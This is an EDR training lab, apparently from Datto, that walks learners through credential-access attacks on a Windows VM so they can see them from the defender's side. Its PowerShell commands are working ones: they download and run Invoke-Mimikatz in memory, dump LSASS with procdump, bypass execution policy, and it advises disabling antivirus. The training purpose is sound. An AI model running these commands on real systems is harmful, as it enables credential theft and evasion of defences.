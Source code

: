 ```yaml
---
Title: ATT&CK - Credential Access & Exfiltration Phase
Description: Introduce post-compromise attack behaviors and EDR defenses
Author: Chris Gerritz, Datto
Created: 04/14/2025
Achievements:
Duration: 10
Range:
- Windows
Applications:
- Terminal (Command prompt)
- PowerShell
- Datto EDR
- SysInternals
- Office
- Adobe Reader
External:
- attack.mitre.org
- rightofboom.infocyte.com
- raw.githubusercontent.com/PowerShellMafia/PowerSploit/f650520c4b1004daf8b3ec08007a0b945b91253a/Exfiltration/Invoke-Mimikatz.ps1
- live.sysinternals.com/procdump.exe
---
```


## Description

The purpose of these labs is to introduce post-compromise attack behaviors and EDR defenses. We will perform post-compromise behaviors that an attacker would run once they compromised a system within the network.  This system has Datto EDR installed for monitoring so we will be able to view these commands from the defender's perspective as well.

Credential Access consists of techniques for stealing credentials like account names and passwords. Techniques used to get credentials include keylogging or credential dumping. Using legitimate credentials can give adversaries access to systems, make them harder to detect, and provide the opportunity to create more accounts to help achieve their goals

The virtual machine has some dummy users to mimic a specific type of workstation that might be found in a business enviroment:

Dummy users:
- Joe from Accounting: 
  - `net user joe Password1! /ADD /FULLNAME:"Joe - Accounting"`
- Samson from Accounting
  - `net user samson Password1! /ADD /FULLNAME:"Samson - Accounting"`
- Brenda from IT
  - `net user brenda Password1! /ADD /FULLNAME:"Branda - IT Helpdesk"`

---

## Objectives
<!--
- List all objectives for this lab
- Need at least three objectives
- Use blooms taxonomy verbs: KNOWLEDGE,UNDERSTAND, APPLY, ANALYZE, EVALUATE, CREATE
- https://www.teachthought.com/critical-thinking/blooms-taxonomy-verbs-2/
-->
1. Understand the Credential Access phase of an attack
2. Demonstrate the use of common tools for stealing passwords
   

## Requirements

|                  |                             |
|------------------|-----------------------------|
| **Range**        | Windows |
| **Applications** | All applications needed     |
| **Needed Files** | None |


## Preparation Instructions

Ignore this if you already ran it in a previous lab and are re-using the same Powershell window.

1. Open powershell as an administrator
	- Right click Powershell
	- Click "Run as Administrator"
2. Prepare the enviroment with some variables we will use later
	- Run the following:
	```PowerShell
	#Define a random number (This will be used to force Datto EDR not to deduplicate repeated commands during testing)
	$n = 1000+$(Get-Random -Max 999)
	# Bypass signed script controls
	Set-ExecutionPolicy -Scope CurrentUser -ExecutionPolicy Bypass
	```

## Instructions

For each of these labs, you will need your Powershell window open. You can use the same window for all labs. You will be copying and pasting commands into the terminal and then evaluating the output.

w> All labs require you to be running as an administrator. 


### 1. Credential Dumping with Mimikatz
> *Mimikatz is one of the most well known credential access and dumping tools used by hackers today. It can extract passwords, unencode them and sometimes unencrypt them.*

w> Mimikatz almost always will flag on antivirus so it's important to disable antivirus tools prior to running it.

Execute a **Credential Dump with Mimikatz**. 
- MITRE ATT&CK Technique: [ATT&CK T1003 - Credential Access - Credential Dumping](https://attack.mitre.org/techniques/T1003)
- Copy and paste this command into the terminal:
	```PowerShell
	# Mimikatz
	Write-Host -ForegroundColor Cyan "Executing Credential Dump - T1003 - Credential Dumping with Mimikatz"
	$MimikatzURL = 'https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/f650520c4b1004daf8b3ec08007a0b945b91253a/Exfiltration/Invoke-Mimikatz.ps1'
	$cmd = "IEX (New-Object Net.WebClient).DownloadString('$MimikatzURL'); Invoke-Mimikatz -DumpCreds; Start-Sleep -m $n"
	powershell.exe -command $cmd
	```



### 2. Credential Dumping with procdump.exe
> *Because Mimikatz is so commonly found by antivirus, some attackers will use built-in windows utilities to dump the memory of the security process, LSASS.exe, and then use mimikatz on the dump following exfiltration.*

Execute a **Credential Dump with Procdump**. 
- MITRE ATT&CK Technique: [ATT&CK T1003 - Credential Access - Credential Dumping](https://attack.mitre.org/techniques/T1003)
- Copy and paste this command into the terminal:
	```PowerShell
	# Extract LSASS memory with Procdump
	Write-Host -ForegroundColor Cyan "Executing Credential Dump - T1003 - Credential Dumping with Mimikatz"
	Write-Host -ForegroundColor Cyan  "Downloading ProcDump.exe"
	Invoke-WebRequest -Uri http://live.sysinternals.com/procdump.exe -OutFile "$Env:temp\procdump.exe"
	Write-Host "Dumping LSASS memory with ProcDump.exe to extract passwords and tokens"
	& "$Env:temp\procdump.exe" -ma lsass.exe lsass.dmp -accepteula
	```